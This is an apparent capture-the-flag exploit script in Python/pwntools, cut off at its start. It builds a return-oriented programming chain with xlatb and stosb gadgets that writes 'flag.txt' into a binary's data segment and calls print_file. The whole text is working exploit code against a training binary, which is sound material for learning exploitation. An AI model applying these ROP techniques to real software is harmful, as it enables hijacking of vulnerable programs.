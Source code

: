 ```
    set_eax_0_pop_rbp = 0x400610
    xlatb_addr        = 0x400628
    stosb_gadget      = 0x400639 # 0x0000000000400639: stosb byte ptr [rdi], al; ret;

    payload  = movetargetcharintorbx(char_addr,i)
    payload += p64(set_eax_0_pop_rbp)
    payload += p64(0x4141414141414141) # garbage
    payload += p64(xlatb_addr)
    payload += p64(stosb_gadget)
    return payload


goal_string = "flag.txt"
char_addrs = {
        'f': (0x4006a6),
        'l': (0x400239),
        'a': (0x4003cd + 9),
        'g': (0x4003cd + 2),
        '.': (0x400439),
        't': (0x400428 - 2),
        'x': (0x4006c4 + 4)
    }


io = start()

writable_address = 0x601028 # in .data segment
pop_rdi_gadget   = 0x4006a3
print_file_plt   = 0x400510


payload = b"A" * 40

# Write flag.txt to memory with characters found in the binary
payload += p64(pop_rdi_gadget)
payload += p64(writable_address)
for i, x in enumerate(goal_string):
    print(i,x, hex(char_addrs[x]))
    payload += write_char(char_addrs[x],writable_address+i,i)


# Call print file
payload += p64(pop_rdi_gadget)
payload += p64(writable_address)
payload += p64(print_file_plt)

print("Payload len: ", hex(len(payload)))
io.sendlineafter(b">", payload)
io.interactive()
```
